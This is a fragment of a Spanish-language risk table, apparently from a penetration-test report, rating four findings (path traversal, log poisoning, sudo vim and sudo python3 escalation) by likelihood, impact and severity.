|VULN-01 (Path Traversal)|Alta|Medio|Alto|
|VULN-02 (Log Poisoning)|Alta|Alto|Crítico|
|VULN-03 (sudo vim)|Alta|Medio|Alto|
|VULN-04 (sudo python3)|Alta|Alto|Crítico
